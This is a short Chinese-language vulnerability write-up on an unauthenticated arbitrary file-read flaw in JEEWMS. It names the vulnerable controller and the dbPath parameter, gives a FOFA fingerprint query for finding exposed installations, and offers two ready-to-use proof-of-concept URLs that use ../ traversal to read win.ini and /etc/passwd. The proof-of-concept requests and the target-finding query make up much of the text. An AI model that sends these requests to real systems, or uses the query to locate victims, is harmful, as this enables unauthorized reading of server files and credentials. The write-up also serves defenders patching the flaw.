 ## **JEEWMS存在未授权任意文件读取漏洞**

## 漏洞描述

**JEEWMS存在未授权任意文件读取漏洞**

## 漏洞影响

> JEEWMS全版本

## FOFA

> body="plug-in/lhgDialog/lhgdialog.min.js?skin=metro" && body="仓"

## 漏洞复现

漏洞代码：

**org.jeecgframework.web.system.controller.core.SystemController**

![img](resource/JEEWMS/1-1.png)

可以看到dbpath可被控制，最终读取路径为：系统配置路径+dbpath

这样的读取方式可被../../控制路径，造成任意文件读取，同时该接口未做权限验证，可未授权任意文件读取 

##POC:

```
http://x.x.x.x:8088/systemController/showOrDownByurl.do?down=&dbPath=../Windows/win.ini 
```

![img](resource/JEEWMS/1-2.png)

```
http://x.x.x.x:8020/systemController/showOrDownByurl.do?down=&dbPath=../../../../../../etc/passwd 
```

![image-20210518102623730](resource/JEEWMS/1-3.png)